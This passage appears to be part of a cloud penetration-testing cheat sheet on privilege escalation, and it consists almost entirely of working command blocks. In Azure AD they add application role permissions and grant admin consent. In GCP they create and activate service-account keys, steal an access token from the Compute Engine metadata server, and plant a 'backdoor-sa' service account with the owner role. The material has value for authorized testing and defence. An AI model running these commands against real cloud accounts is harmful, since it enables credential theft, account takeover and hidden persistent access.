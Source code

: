 
#### Azure AD Application Permissions
```bash
# List application permissions
az ad app permission list --id application-id

# Grant additional permissions
az ad app permission add --id application-id --api 00000003-0000-0000-c000-000000000000 --api-permissions 9e3f62cf-ca93-4989-b6ce-bf83c28f9fe8=Role

# Admin consent for permissions
az ad app permission admin-consent --id application-id
```

### GCP Privilege Escalation

#### Service Account Key Creation
```bash
# List current permissions
gcloud auth list
gcloud projects get-iam-policy project-id

# Create service account key (if permitted)
gcloud iam service-accounts keys create key.json --iam-account=target-sa@project.iam.gserviceaccount.com

# Activate service account
gcloud auth activate-service-account --key-file=key.json

# Check new permissions
gcloud projects get-iam-policy project-id
```

#### Compute Engine Metadata Abuse
```bash
# Check for default service account access
curl -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token"

# Get access token
TOKEN=$(curl -H "Metadata-Flavor: Google" "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" | jq -r .access_token)

# Use token for API calls
curl -H "Authorization: Bearer $TOKEN" "https://compute.googleapis.com/compute/v1/projects/project-id/zones"

# Create new service account with admin privileges
gcloud iam service-accounts create backdoor-sa --display-name="Backdoor Service Account"
gcloud projects add-iam-policy-binding project-id --member="serviceAccount:backdoor-sa@project-id.iam.gserviceaccount.com" --role="roles/owner"
```
